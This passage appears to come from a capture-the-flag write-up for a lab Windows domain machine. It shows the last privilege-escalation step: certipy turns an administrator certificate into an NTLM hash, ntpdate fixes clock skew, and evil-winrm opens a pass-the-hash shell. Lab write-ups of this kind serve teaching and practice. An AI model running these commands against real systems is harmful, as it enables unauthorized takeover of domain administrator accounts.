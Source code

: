 With this certificate as the administrator user, the easiest way to get a shell is to use it to get the NTLM hash for the user with the auth command. This requires the VM and target times to be in sync, with otherwise leads to this failure:
```
oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip manager.htb
```
I’ll use ntpdate to sync my VM’s time to Manager’s:
```
oxdf@hacky$ sudo ntpdate 10.10.11.236
```
```
oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236 
```
With the hash, I can get a shell as administrator using Evil-WinRM:
```
oxdf@hacky$ evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
```